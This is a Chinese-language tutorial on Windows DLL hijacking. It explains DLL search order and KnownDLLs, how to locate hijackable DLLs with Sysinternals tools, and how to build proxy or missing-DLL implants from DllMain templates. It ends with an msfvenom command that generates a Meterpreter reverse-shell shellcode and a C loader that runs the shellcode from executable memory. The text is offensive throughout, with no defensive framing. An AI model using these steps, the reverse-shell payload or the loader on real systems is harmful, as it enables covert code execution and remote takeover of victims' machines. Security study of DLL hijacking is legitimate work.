

# 利用原理

## xp sp2

1. 进程对应的应用程序所在目录；
2. 当前目录（Current Directory）；
3. 系统目录（通过 GetSystemDirectory 获取）；
4. 16位系统目录；
5. Windows目录（通过 GetWindowsDirectory 获取）；
6. PATH环境变量中的各个目录；

## xp sp2之后

Windows查找DLL的目录以及对应的顺序（SafeDllSearchMode 默认会被开启）：

默认注册表为：HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\SafeDllSearchMode，其键值为1

1. 进程对应的应用程序所在目录（可理解为程序安装目录比如C:\ProgramFiles\uTorrent）
2. 系统目录（即%windir%system32）；
3. 16位系统目录（即%windir%system）；
4. Windows目录（即%windir%）；
5. 当前目录（运行的某个文件所在目录，比如C:\Documents and Settings\Administrator\Desktop\test）；
6. PATH环境变量中的各个目录；

## win7以上

系统没有了SafeDllSearchMode 而采用KnownDLLs，那么凡是此项下的DLL文件就会被禁止从exe自身所在的目录下调用，而只能从系统目录即SYSTEM32目录下调用，其注册表位置：

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs

| Wow64.dll   | Wow64cpu.dll | Wow64win.dll | advapi32.dll | clbcatq.dll | combase.dll  | COMDLG32.dll |
| ----------- | ------------ | ------------ | ------------ | ----------- | ------------ | ------------ |
| coml2.dll   | difxapi.dll  | \system32    | \syswow64    | gdi32.dll   | gdiplus.dll  | IMAGHELP.dll |
| IMM32.dll   | kernel32.dll | LPK.dll      | MSCTF.dll    | MSVCRT.dll  | NORMALLZ.dll | NSI.dll      |
| ole32.dll   | OLEAUT32.dll | PSAPI.DLL    | rpcrt4.dll   | sechost.dll | Setupapi.dll | SHELL32.dll  |
| SHLWAPI.dll | user32.dll   | WLDAP32.dll  | WS2_32.dll   |             |              |              |

那么最终Windows2003以上以及win7以上操作系统通过“DLL路径搜索目录顺序”和“KnownDLLs注册表项”的机制来确定应用程序所要调用的DLL的路径，之后，应用程序就将DLL载入了自己的内存空间，执行相应的函数功能。

- 默认情况下，如果软件安装在c盘根目录，而不是c:\Program Files，那经过身份验证的用户具有该目录的写权限，另外，perl，python，ruby等软件通常都添加到path变量中。那攻击者可以在当前目录中编写恶意DLL，只要重新运行exe程序就会中招。
- SafeDllSearchMode + KnownDLLs二者结合可用来防范dll劫持，但是如果调用"不常见"的dll，也就是并未出现在KnownDLLs的列表中，那么无论SafeDllSearchMode是否开启，dll搜索的第一顺序均为程序的当前目录，这里就存在一个DLL劫持漏洞（在程序同级目录下预先放置一个同名dll，在进程启动的过程中会优先加载，实现劫持。

# 检查加载dll

工具：[procexp](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer)


选择需要检测的程序


# 查找可利用dll

工具：[Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)

找一个需要用到`loadlibrary`这个api的dll，这里找有这个api的原因是因为如果该dll的调用栈中存在有 **LoadLibrary(Ex)**，说明这个DLL是被进程所动态加载的。

`LoadLibrary`和`LoadLibraryEx`一个是本地加载，一个是远程加载，如果DLL不在调用的同一目录下，就可以使用`LoadLibrary(L"DLL绝对路径")`加载。但是如果DLL内部又调用一个DLL，就需要使用`LoadLibraryEx`进行远程加载，语法如下

```
LoadLibraryEx(“DLL绝对路径”, NULL, LOAD_WITH_ALTERED_SEARCH_PATH);
```

`LoadLibraryEx`的最后一个参数设置为`LOAD_WITH_ALTERED_SEARCH_PATH`即可让系统dll搜索顺序从我们设置的目录开始。

## 方法一（劫持应用中没有的dll）



## 方法二（劫持应用中存在的dll）


# 制作恶意dll

## 针对劫持应用中没有的dll

vs创建动态DLL


代码

```c
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <stdlib.h>

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        /*
         code
        */
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

补充说明

| ul_reason_for_call的值 | 代表的状态              |
| ---------------------- | ----------------------- |
| DLL_PROCESS_ATTACH     | Dll刚刚映射到进程空间中 |
| DLL_THREAD_ATTACH      | 进程中有新线程创建      |
| DLL_THREAD_DETACH      | 进程中有新线程销毁      |
| DLL_PROCESS_DETACH     | Dll从进程空间中解除映射 |

编译成dll文件


## 针对劫持应用中存在的dll

工具：AheadLib

### 直接转发


vs创建动态DLL

修改导出代码（头部、code）

```c
// 需修改
#include "pch.h"
#include <Windows.h>
#include <stdlib.h>

BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
	if (dwReason == DLL_PROCESS_ATTACH)
	{
		DisableThreadLibraryCalls(hModule);
        // 需修改
		/*
		 code
		*/
	}
	else if (dwReason == DLL_PROCESS_DETACH)
	{
	}

	return TRUE;
}
```

将编译后的dll放置修改的dll同目录下，正常dll名称修改为工具中的原始DLL名称（即DSpellCheckOrg），恶意dll名称改为正常dll名称。

### 即时调用


vs创建动态DLL

修改导出代码（头部、code）

```c
// 需修改
#include "pch.h"
#include <Windows.h>
#include <stdlib.h>

// 入口函数
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
	if (dwReason == DLL_PROCESS_ATTACH)
	{
		DisableThreadLibraryCalls(hModule);
		// 需修改
		/*
		 code
		*/
		return Load();
	}
	else if (dwReason == DLL_PROCESS_DETACH)
	{
		Free();
	}

	return TRUE;
}
```

将编译后的dll放置修改的dll同目录下，正常dll名称修改为工具中的原始DLL名称（即DSpellCheckOrg），恶意dll名称改为正常dll名称。

## 注意

如果需要自己书写函数，记得申明`extern "C"`

```c
// extern "C" __declspec(dllexport) 类型 函数(参数);
extern "C" __declspec(dllexport) void Scintilla_DirectFunction();
```

# shellcode生成

```shell
# msf
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<host> LPORT=<port> -f c
```

# 加载器

## 简单

```c
int main()
{
	//((void(*)(void))&buf)();
	/**/
	LPVOID Memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (Memory == NULL)
	{
		return 0;
	}
	memcpy(Memory, buf, sizeof(buf));
	((void(*)())Memory)();
	/**/
}
```

